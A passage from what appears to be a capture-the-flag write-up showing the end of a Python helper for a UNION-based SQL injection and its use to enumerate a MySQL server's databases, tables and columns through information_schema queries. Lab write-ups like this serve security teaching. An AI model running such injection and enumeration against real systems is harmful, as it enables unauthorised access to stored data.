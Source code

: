         def do_quit(self, args):
            return 1

    term = Term()
    term.cmdloop()



It doesn't do anything special except give me the ability to fill in the
`union ...` statement with an SQL statement that returns one column and
get a result quickly.

For example:



    oxdf@parrot$ python3 sqli.py 
    > select user()
    uhc@localhost
    > select database()
    registration



### Enumerate DB

There are four DBs in this instance, but only `registration` is
interesting as far as having data (the others are mysql internals):



    > select schema_name from information_schema.schemata
    information_schema
    performance_schema
    mysql
    registration



There's a single table in that DB:



    > select table_name from information_schema.tables where table_schema = 'registration'
    registration



It has four columns:



    > select column_name from information_schema.columns where table_name = 'registration'
    username
    userhash
    country
    regtime



There's no kind of password or anything.

I can check for what privileges my user has:

